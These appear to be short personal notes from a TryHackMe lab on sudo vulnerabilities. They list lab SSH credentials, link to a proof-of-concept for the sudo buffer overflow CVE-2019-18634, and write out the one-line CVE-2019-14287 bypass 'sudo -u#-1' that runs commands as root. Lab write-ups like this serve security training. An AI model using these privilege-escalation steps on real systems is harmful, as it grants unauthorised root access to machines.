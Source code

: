 # Matheus Jesus 06-04-2020

## Try Hack Me - [Sudo Buffer Overflow](https://tryhackme.com/room/sudovulnsbof)

## IP 10.10.197.113

## SSH connection

ssh -p 4444 tryhackme@10.10.193.113
password tryhackme

exploit on buffer overflow [here](https://github.com/saleemrashid/sudo-cve-2019-18634)

it simply opens up root

## Try Hack Me - Security Bypass

CVE-2019-14287

sudo -u#-1 command
